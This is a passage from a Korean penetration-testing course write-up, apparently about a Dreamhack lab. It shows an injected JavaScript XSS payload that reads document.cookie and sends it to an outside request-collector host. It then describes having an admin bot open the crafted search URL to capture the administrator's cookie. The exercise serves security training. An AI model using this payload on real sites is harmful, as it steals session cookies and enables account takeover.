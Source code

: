 입력한 페이로드는 다음과 같다.

<pre><code class="language-js hljs language-javascript" data-highlighted="yes"><span class="hljs-string">'</span>);
<span class="hljs-keyword">var</span> cookieData = <span class="hljs-variable language_">document</span>.<span class="hljs-property">cookie</span>;
<span class="hljs-keyword">var</span> img = <span class="hljs-keyword">new</span> <span class="hljs-title class_">Image</span>();
img.<span class="hljs-property">src</span> = <span class="hljs-string">"https://zgcsqwt.request.dreamhack.games/?cookie="</span> + cookieData;
(<span class="hljs-string">'</span>
</code></pre>

검색을 수행한 후 `<script>` 태그 내에 정상적으로 악성 스크립트가 포함된 것을 확인하였다.

![XSS 2](/data/Penetration%20Testing%20%7C%20Week%2010/14.png)

검색 요청 URL을 관리자 Bot에게 접속시키면 관리자의 쿠키 정보를 획득할 수 있다. 검색 데이터가 POST 방식으로 전송되고 있었으므로, 요청 방식을 변경한 뒤 URL을 복사하였다.

![XSS 2](/data/Penetration%20Testing%20%7C%20Week%2010/15.png)
